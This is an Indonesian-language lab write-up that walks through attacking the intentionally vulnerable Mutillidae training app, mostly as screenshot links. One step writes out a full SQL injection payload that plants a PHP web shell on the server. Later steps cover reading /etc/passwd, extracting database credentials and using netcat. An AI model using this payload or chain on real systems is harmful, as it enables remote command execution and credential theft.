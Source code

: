1. Melihat database pada mutillidae. 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20database%20dan%20use%20owasp10.PNG "DATABASES PADA MUTILLIDAE")
  
   2. Melihat tabel database owasp10
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables%20owasp10.PNG "TABEL PADA OWASP10")
  
   3. Melihat field pada tabel account
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/desc%20accounts.PNG "FIELD TABEL ACCOUNT")
  
   4. Buka mutillidae pada browser
   5. Menuju menu user info. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
   6. Inspect elemen pada textbox name, lalu ubah size.
    
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/inspect%20elemet%20100.PNG "INSPECT ELEMEN dan UBAH SIZE")
  
   7. Melakukan Backdoor Union SQL Union Injection. Bertujuan untuk membuat file axecute_command.php. Dengan perintah " ' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' --  "
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/hasil%20execue%20command.PNG "Membuat file execute_command.php")
  
   8. Membuka execute_command.php
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_1.PNG "Membuka execute_command.php")
  
   9. Mengetahui siapa yang log in
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_2.PNG "Mengetahui siapa yang log in")

  10. Exploring /etc/passwd
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_3.PNG "Exploring /etc/passwd")
  
  11. Network Reconnaissance
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section10_4.PNG "Network Reconnaissance")
  
  12. Database Reconnasissance: mencari semua file php yang terdapat string password
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section11_1.PNG "daftar file dan stringnya")
  
  13. Menampilkan script php MySQLHandler.php, mencari username dan password database
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section11_2%203.PNG "MySQLHandler.php")
  
  14. Netcat Reconnaissance: mencari letak netcat dan jumlah yang menggunakan port tersebut
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section12_1.PNG "Port 4444")
  
  15. Eksekusi netcat
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section12_2.PNG "Transfering Data")
  
  16. Eksekusi netcat
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section12_2.PNG "Transfering Data")
  
  17. Connect netcat dan test
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section12_3.PNG "Perintah Whoami")
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/section12_3a.PNG "Perintah hostname")
  
  18. Menampilkan database
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/uroot%20psamurai.PNG "Databases")
  
   19. Menampilkan tabel dalam database
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/show%20tables.PNG "Tables")
  
   20. Menampilkan tabel account
   
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/Lesson_10/tabel%20account.PNG "Table Account")
  
